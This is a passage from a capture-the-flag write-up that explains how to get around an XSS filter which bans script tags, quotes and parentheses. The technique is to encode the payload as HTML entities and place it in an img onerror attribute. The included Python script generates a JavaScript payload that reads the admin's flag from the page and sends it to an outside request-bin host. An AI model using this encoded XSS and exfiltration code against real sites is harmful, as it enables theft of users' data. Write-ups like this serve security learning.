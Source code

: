 
Even when I had the admin to take the flag and send it back to me, I still couldn't get the flag. As you can see there, there must be some filters. I cannot use `<script>` tags, no quotes, and no pharentheses. At this point, I was pretty confident that the payload is working, and this is just another obstacle that I need to see through.

To be able to execute Javascript with certain token being banned, I thought of some ways. At first I thought I could use JSFuck (read [here](http://www.jsfuck.com/)) to obfuscate the payload and bypass the check, but JSFuck do use pharentheses, so that's a no. Instead, I hid the entire payload by converting it into the HTML Entities equivalent for each character. You can read more about HTML Entities [here](https://developer.mozilla.org/en-US/docs/Glossary/Entity). Also, to avoid using `<script>` tags to execute the payload, I used an `img` tag instead and put the payload inside the `onload` attribute.

When I was working on this challenge I build my own solver script to convert my payload into the HTML Entities format, but you also can use a tool for that (like [this](https://v2.cryptii.com/text/htmlentities)). Here's the script:

```
#!/usr/bin/python

payload = """
window.addEventListener("load", function(event) {
	var targetButton = document.getElementsByClassName("flag-button");
	var navbarButton = document.getElementsByClassName("navbar-toggler");
	console.log(document);
	targetButton[0].onclick = function fun() {
		var probe = setInterval(function(){ 
			let flag = document.getElementById('responseAlert').innerHTML;
	        var req = new XMLHttpRequest();
		    req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?theflag=' + flag);
			req.onreadystatechange = function() {
			  console.log(flag);
			};
			req.send();
		}, 1000);
		setTimeout(function( ) { clearInterval( probe ); }, 10000);
	}
	targetButton[0].click();
});
"""

unicoded = ""
compacted = ""
for c in payload:
	unicoded += ("&#" + str(ord(c)))
	compacted += c
print ("Raw: %s" % compacted)
print ("<img src=x onerror=%s>" % unicoded)

```

And here's the final payload:
```
```